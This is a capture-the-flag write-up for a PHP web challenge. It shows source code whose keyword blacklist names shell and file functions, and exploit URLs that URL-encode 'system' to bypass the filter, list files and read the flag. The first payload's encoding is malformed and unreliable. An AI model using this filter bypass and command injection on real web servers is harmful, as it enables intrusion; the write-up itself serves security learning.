 A quick poke around the URL revealed a robots.txt file which gave the first clue:

# you know de wae ma queen
User-Agent: *
Disallow: /?debug


Visiting http://35.196.45.11:8080/?debug provided the PHP source code that is driving the page:

```php

$blacklist = "assert|system|passthru|exec|assert|read|open|eval|`|_|file|dir|\.\.|\/\/|curl|ftp|glob";

if(count($_GET) > 0){
    if(preg_match("/$blacklist/i",$_SERVER["REQUEST_URI"])) die("No no no hackers!!");
    list($key, $val) = each($_GET);
    $key($val);
}
?>```

But The admin forgot that we can bypass the filter using url encoding , we can call system("ls"):

**http://35.196.45.11:8080/?%115%121%115%116%101%109=ls**

now print the long file name content :

**http://35.196.45.11:8080/?%73%79%73%74%65%6d=cat%20flag-a-long-name-that-you-wont-know.php**



`AceBear{I_did_something_stupid_with_url}`

